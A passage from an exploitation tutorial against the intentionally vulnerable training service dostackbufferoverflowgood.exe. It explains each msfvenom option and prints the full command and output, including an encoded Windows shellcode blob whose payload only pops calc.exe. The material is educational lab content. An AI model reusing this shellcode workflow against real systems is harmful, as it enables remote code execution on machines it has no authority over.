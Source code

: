 * `-p windows/exec` (we want Windows shellcode that will `exec`ute a command)
* `-b '\x00\x0A` (the list of bad characters we determined earlier, so that `msfvenom` can avoid having them in the generated shellcode)
* `-f python` (output shellcode in a Python-friendly format)
* `--var-name shellcode_calc` (tell `msfvenom` to output Python code that sets a variable called `shellcode_calc`)
* `CMD=calc.exe EXITFUNC=thread` (options for the `windows/exec` payload)

`CMD` gets set to `calc.exe` for poppage of calc. `EXITFUNC` specifies how the
shellcode should clean up after itself. If msfvenom wasn't to add some sort of
`FUNC`tion to `EXIT` with, execution would "fall off" the end of the shellcode
on the stack and random stack data would be executed as code, crashing the
process and ruining our day as attackers. By choosing an `EXITFUNC` of
`thread`, `msfvenom` will append some code that cleanly shuts down the thread
it is running in. Since `dostackbufferoverflowgood.exe` handles client
connections in separate threads, this will mean that the service as a whole
will continue to run after our shellcode executes. If we left `EXITFUNC` at the
default value of `process`, the shellcode would cause the whole service to shut
down after the shellcode had finished executing.

\newpage

Running `msfvenom` we get our shellcode:

```
% ~/opt/metasploit-framework/msfvenom -p windows/exec -b '\x00\x0A' \
    -f python --var-name shellcode_calc CMD=calc.exe EXITFUNC=thread

No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 220 (iteration=0)
x86/shikata_ga_nai chosen with final size 220
Payload size: 220 bytes
shellcode_calc =  ""
shellcode_calc += "\xb8\x3e\x08\xbf\x9c\xdb\xdc\xd9\x74\x24"
shellcode_calc += "\xf4\x5f\x29\xc9\xb1\x31\x31\x47\x13\x03"
shellcode_calc += "\x47\x13\x83\xc7\x3a\xea\x4a\x60\xaa\x68"
shellcode_calc += "\xb4\x99\x2a\x0d\x3c\x7c\x1b\x0d\x5a\xf4"
shellcode_calc += "\x0b\xbd\x28\x58\xa7\x36\x7c\x49\x3c\x3a"
shellcode_calc += "\xa9\x7e\xf5\xf1\x8f\xb1\x06\xa9\xec\xd0"
shellcode_calc += "\x84\xb0\x20\x33\xb5\x7a\x35\x32\xf2\x67"
shellcode_calc += "\xb4\x66\xab\xec\x6b\x97\xd8\xb9\xb7\x1c"
shellcode_calc += "\x92\x2c\xb0\xc1\x62\x4e\x91\x57\xf9\x09"
shellcode_calc += "\x31\x59\x2e\x22\x78\x41\x33\x0f\x32\xfa"
shellcode_calc += "\x87\xfb\xc5\x2a\xd6\x04\x69\x13\xd7\xf6"
shellcode_calc += "\x73\x53\xdf\xe8\x01\xad\x1c\x94\x11\x6a"
shellcode_calc += "\x5f\x42\x97\x69\xc7\x01\x0f\x56\xf6\xc6"
shellcode_calc += "\xd6\x1d\xf4\xa3\x9d\x7a\x18\x35\x71\xf1"
shellcode_calc += "\x24\xbe\x74\xd6\xad\x84\x52\xf2\xf6\x5f"
shellcode_calc += "\xfa\xa3\x52\x31\x03\xb3\x3d\xee\xa1\xbf"
shellcode_calc += "\xd3\xfb\xdb\x9d\xb9\xfa\x6e\x98\x8f\xfd"
shellcode_calc += "\x70\xa3\xbf\x95\x41\x28\x50\xe1\x5d\xfb"
shellcode_calc += "\x15\x0d\xbc\x2e\x63\xa6\x19\xbb\xce\xab"
shellcode_calc += "\x99\x11\x0c\xd2\x19\x90\xec\x21\x01\xd1"
shellcode_calc += "\xe9\x6e\x85\x09\x83\xff\x60\x2e\x30\xff"
shellcode_calc += "\xa0\x4d\xd7\x93\x29\xbc\x72\x14\xcb\xc0"
```

---